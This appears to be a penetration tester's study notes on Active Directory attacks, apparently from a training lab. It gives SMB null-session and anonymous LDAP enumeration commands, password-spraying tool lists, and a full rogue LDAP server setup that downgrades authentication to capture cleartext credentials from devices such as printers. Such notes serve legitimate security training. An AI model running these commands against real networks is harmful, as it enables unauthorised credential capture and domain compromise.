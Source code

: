 All of these tools rely on an SMB Null session to work if we do not already have domain credentials. From Windows we can try

```shell
net use \\<DC>\ipc$ "" /u:"" # Test if SMB null sessions are allowed 
```

- [[LDAPSearch]]
- [[PowerView]]

LDAPSearch uses an LDAP Anonymous Bind session to enumerate password policy. 

```shell
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

From Windows is even easier.

```shell
net accounts
```

# Enumerating Domain Users
- [[LDAPSearch]]
- [[CrackMapExec]]
- [[RPCclient]]
- [[Enum4Linux]]
- [[Kerbrute]]
- LOL Solutions (like the AD module)

# Password Spraying
- [[Kerbrute]]
- [[CrackMapExec]]
- [[DomainPasswordSpray]] (Windows)

Password Spraying can get us one AD User and password pair, which can give us all ad users' hashes via Kerberoasting. 

# Rogue LDAP
If you have control over where LDAP requests are being sent, perhaps on a networked and unsecured printer, you can configure a rogue LDAP server and sniff the cleartext credentials with Wireshark.

```shell
# Start a rogue LDAP server on Kali
apt install slapd ldap-utils
systemctl start slapd
dpkg-reconfigure -p low slapd
<select No>
<enter domain you are attacking/impersonating>
<re-enter domain you are impersonating>
<any password will work>
<select MDB>
<select No>
<select Yes>

echo "dn: cn=config" > olcSaslSecProps.ldif
echo "replace: olcSaslSecProps" >> olcSaslSecProps.ldif
echo "olcSaslSecProps: noanonymous,minssf=0,passcred" >> olcSaslSecProps.ldif

ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif
service slapd restart

tcpdump -SX -i <interface> tcp port 389
```
